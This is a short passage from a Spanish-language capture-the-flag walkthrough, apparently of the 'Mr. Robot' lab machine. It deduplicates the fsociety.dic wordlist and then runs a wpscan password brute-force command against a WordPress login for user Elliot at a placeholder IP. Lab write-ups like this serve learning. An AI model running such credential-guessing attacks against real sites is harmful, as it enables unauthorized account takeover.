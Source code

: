 ### nuestro diccionario tiene 858160 palabras de las cuales muchas estan repetidas asi que vamos a memorar eso

```python 
	sort fsociety.dic | uniq > fsociety.dic_nuevo
	
```

### este comando nos ordena todo el diccionario alfabeticamente y tambien elimina las palabras repetidas y finalmente lo guarda en un nuevo archivo llamado: fsociety.dic_nuevo.

si hacemos nuevamente
```python
wc fsociety.dic_nuevo -l 
```
podemos ver que ahora nuestro nuevo diccionario tiene: 11451. esto esta mucho mejor asi que intentemos el ataque con el nuevo diccionario para ver si va mas rapido.

### Bueno, parece que a BurpSuite le cuesta hacer el ataque asi que investigando conseguimos una nueva herramienta (wpscan) que nos permite hacer ataques a paginas wordpress

```python
	wpscan -U Elliot -P fsociety.dic_nuevo --url http://IP/wp-login --multicall-max-passwords
```

![img](/assets/img/imagenes/2023-10-29_02-03.png)
